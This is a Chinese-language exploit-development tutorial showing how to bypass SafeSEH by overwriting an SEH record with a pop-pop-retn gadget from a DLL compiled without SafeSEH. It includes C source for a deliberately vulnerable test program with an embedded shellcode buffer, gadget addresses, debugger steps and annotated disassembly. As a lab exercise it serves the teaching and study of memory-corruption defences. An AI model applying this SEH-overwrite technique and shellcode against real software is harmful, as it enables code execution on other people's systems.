









# Bypass SafeSEH through jumping into No_SafeSEH module

**Author：wnagzihxain
Mail：tudouboom@163.com**

当异常处理函数位于加载模块内，但是未启用SafeSEH，而且不是仅包含IL，校验函数就会通过校验

那接下来我们就可以构造一个dll，利用里面的指令来实现跳转

先来创建一个DLL工程



然后接下来的一步选择“一个简单的DLL工程”就行了

代码如下
```
// SEH_NoSafeSEH_JUMP.cpp : Defines the entry point for the DLL application.
//

#include "stdafx.h"

BOOL APIENTRY DllMain( HANDLE hModule,DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    return TRUE;
}

void jump()
{
__asm{
	pop eax
	pop eax
	retn
	}
}
```

生成Release版本，同时因为VC编译的DLL文件默认加载基址是`0x10000000`，为了防止地址中的`00`在赋值shellcode的时候造成截断，所以我们手动修改一下起始加载基址

点击工程-设置-连接->最下面加上`/base:"0x11120000"`，但是要注意一点，最后面要加一个空格和后面的item隔开，不然link的时候会出错！！！！！！



好了然后编译生成DLL就行了，我们来Load进OD看一下

红色的OFF是未启用SafeSEH的模块，可以用于跳板

绿色的ON是启用SafeSEH的模块

绿色的NoSEH的意思是不支持S.E.H，异常直接忽略

起始还有一种Error，但是这里没有显示出来



到这里已经准备好了未启用SafeSEH的模块

接下来就来分析一下《0day2》上的代码
```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x12\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	HINSTANCE hInst = LoadLibrary(TEXT("1.dll"));//load No_SafeSEH module
	char str[200];
	__asm int 3
	test(shellcode);
	return 0;
}
```

先加载了我们刚才写的DLL，然后一个test函数，test函数里面明显一个缓冲区溢出，溢出后除0触发异常处理，不过这里是用try的形式添加了一个异常处理

主要分析一下shellcode溢出的具体情况，`try{}`在栈中形成的异常处理肯定是所有异常处理里最靠近ESP的，所以我们来利用这个异常处理，选择未启用SafeSEH的模块当跳板那是很明确的了

但是为什么要使用`pop pop retn`呢？为什么要在后面跟8字节的`\x90`呢？

这些得在调试中慢慢分析

我们用VS2005编译，禁用优化，生成Release版本

然后把DLL文件放到EXE同一文件夹下，然后双击运行，碰到断点中断，附加OD调试，OllySSEH插件看模块情况，如下图



好了接下来单步走，跟进test函数

跟进来后点击View看SEHchain

此时还没有加入try的异常处理，所以现在只有两个异常处理



往下走就会看到增加我们的`try{}`的SEH指针

接下来找一下我们编译的DLL里`pop pop retn`序列

我的在`0x11121010`，所以修改上面的代码覆盖SEH指针的部分为`0x11121010`

来编译看看是什么效果

左上角就是我们需要使用的跳板了，注意栈布局，可以看出来我们pop掉上面两个，就会retn到nextSEH，nextSEH就在`SEH-4`的位置

这个以前的调试里有讲过，在进行异常处理的时候，会先把nextSEH的指针压栈，然后压进去两个现场相关的参数

补充一下，这个SEH就是我们使用try{}而生成的，也就是刚刚说的第三个SEH



我们跟着单步走，来到nextSEH开始的地方



当retn到nextSEH的时候，因为nextSEH处是`\x90`，所以就顺着滑到shellcode，`cld`开始就是shellcode

但是在滑行的过程中会遇到SEH处填充的内容，所以为了保证没有影响，现在我们来处理一下使滑到shellcode的过程更完美

将nextSEH处的填充内容修改为`\xEB\x0E\x90\x90`

重新编译来看看

其实这句话的意思就是retn到nextSEH的时候加个jmp，跳过下面的SEH，这样我们就完美的跳到shellcode的起始位置执行shellcode了



现在修改的代码如下
```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\xEB\x0E\x90\x90"//jump
"\x10\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char * input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	HINSTANCE hInst = LoadLibrary(TEXT("1.dll"));//load No_SafeSEH module
	char str[200];
	__asm int 3
	test(shellcode);
	return 0;
}
```

其实到这里就已经调试完了

但是为什么要在shellcode前面加上8字节的`\x90`呢？

这就需要来讲一下`try{}`这东西了

来读读test函数的汇编

```
00401750 >  55              push    ebp
00401751    8BEC            mov     ebp, esp
00401753    6A FE           push    -2                                   ; 在ss:[ebp-4]处赋值-2，关键1
00401755    68 48224000     push    00402248
0040175A    68 15164000     push    _except_handler4
0040175F    64:A1 00000000  mov     eax, dword ptr fs:[0]
00401765    50              push    eax
00401766    81C4 28FFFFFF   add     esp, -0D8
0040176C    A1 00304000     mov     eax, dword ptr [__security_cookie]   ; Security Cookie
00401771    3145 F8         xor     dword ptr [ebp-8], eax
00401774    33C5            xor     eax, ebp
00401776    8945 E0         mov     dword ptr [ebp-20], eax
00401779    53              push    ebx
0040177A    56              push    esi
0040177B    57              push    edi
0040177C    50              push    eax
0040177D    8D45 F0         lea     eax, dword ptr [ebp-10]
00401780    64:A3 00000000  mov     dword ptr fs:[0], eax
00401786    8965 E8         mov     dword ptr [ebp-18], esp
00401789    8B45 08         mov     eax, dword ptr [ebp+8]
0040178C    50              push    eax
0040178D    8D8D 18FFFFFF   lea     ecx, dword ptr [ebp-E8]
00401793    51              push    ecx
00401794    E8 77F8FFFF     call    strcpy                               ; jmp to MSVCR80.strcpy
00401799    83C4 08         add     esp, 8
0040179C    C745 E4 0000000&gt;mov     dword ptr [ebp-1C], 0
004017A3    C745 FC 0000000&gt;mov     dword ptr [ebp-4], 0                 ; 将ss:[ebp-4]处修改为0，原本为-2，重点就在这，关键2
004017AA    B8 01000000     mov     eax, 1                               ; 赋值eax为1
004017AF    99              cdq
004017B0    F77D E4         idiv    dword ptr [ebp-1C]                   ; 除0
004017B3    8945 E4         mov     dword ptr [ebp-1C], eax
004017B6    C745 FC FEFFFFF&gt;mov     dword ptr [ebp-4], -2                ; 将ss:[ebp-4]的值恢复-2，关键3
004017BD    EB 10           jmp     short 004017CF                       ; 如果顺利运行的话就跳过try自带异常处理
004017BF    E8 6CFFFFFF     call    MyException                          ; 如果异常则执行自带异常处理
004017C4    C3              retn                                         ; 异常处理完就返回
004017C5    8B65 E8         mov     esp, dword ptr [ebp-18]
004017C8    C745 FC FEFFFFF&gt;mov     dword ptr [ebp-4], -2
004017CF    8B4D F0         mov     ecx, dword ptr [ebp-10]
004017D2    64:890D 0000000&gt;mov     dword ptr fs:[0], ecx
004017D9    59              pop     ecx
004017DA    5F              pop     edi
004017DB    5E              pop     esi
004017DC    5B              pop     ebx
004017DD    8B4D E0         mov     ecx, dword ptr [ebp-20]              ; 校验Security Cookie
004017E0    33CD            xor     ecx, ebp
004017E2    E8 19F8FFFF     call    __security_check_cookie
004017E7    8BE5            mov     esp, ebp
004017E9    5D              pop     ebp
004017EA    C3              retn
```

从代码中可以看出来，关键1是在函数开始的时候压栈的，也就是在Security Cookie生成之前，然后碰到一个try{}，在关键2可以看到，修改为0

当退出的到时候，在关键3的位置，修改回`-2`，这个数字有一个功能是用于标记当前到了哪个try，应该使用哪个异常处理

上面我们知道，它的位置是`ss:[ebp-4]`，我们重新去看看整个布局的情况还有SEH的位置

走完布置SEH的指令，可以看到右下角SEH，离`-2`有4字节，所以如果我们直接将shellcode跟在跳板后面，这个位置就会被破坏

所以我们用`\x90`来填充，也就是上面代码的8字节`\x90`

